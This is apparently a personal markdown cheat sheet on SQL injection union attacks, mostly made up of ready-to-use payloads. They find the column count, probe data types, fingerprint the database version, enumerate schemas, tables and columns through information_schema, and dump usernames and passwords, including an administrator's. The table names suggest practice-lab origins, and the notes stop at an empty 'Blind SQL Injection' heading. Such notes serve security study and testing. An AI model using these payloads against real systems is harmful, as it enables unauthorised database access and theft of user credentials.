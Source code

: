 # Union attacks : 
General query : `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

How to determine the number of columns required ?
we use order by statment : 

	' order by 1 --, 
	' order by 2 --, 
	' order by 3 --, ...etc

untill getting an error.

or
	' UNION SELECT NULL--
	' UNION SELECT NULL,NULL--
	' UNION SELECT NULL,NULL,NULL--, -etc.

for oracle, specific syntax `' UNION SELECT NULL FROM DUAL--`

Finding columns with a useful data type
we use the followinf payload when we know the number of columns : 

	' UNION SELECT 'a',NULL,NULL,NULL--
	' UNION SELECT NULL,'a',NULL,NULL--
	' UNION SELECT NULL,NULL,'a',NULL--
	' UNION SELECT NULL,NULL,NULL,'a'--

or 

	- UNION SELECT 1,2,3,4-- 

to retreive data, we can use  

	' UNION SELECT username, password FROM users--

another example when columns are not even 

	SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
	UNION SELECT username, 2, 3, 4 from passwords-- '


Retreiving multiple values within the same column we can use contact depending on the sql syntax

	' UNION SELECT username || '~' || password FROM users--

we can query information about the sql such as : 

	' UNION Database type	Query
	' UNION Microsoft, MySQL	SELECT @@version
	' UNION Oracle	SELECT * FROM v$version
	' UNION PostgreSQL	SELECT version()

Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.
example : 

	SELECT * FROM information_schema.tables
	SELECT * FROM information_schema.columns WHERE table_name = 'Users'
	SELECT * FROM my_database.users;
	

Notes : First we have to know the database name  database 	

	SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;  // to enumrate databases;

then see the tables within the db

	select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 
	
	// !!!!! reminder number of columns don't make the mistake!!!!!!

the dump the columns 

	select COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='users_xemvgh'

and then Get the data you need : 

	select username_ecephv,password_akjxku from users_xemvgh where username_ecephv = 'administrator' --

# Blind SQL Injection :
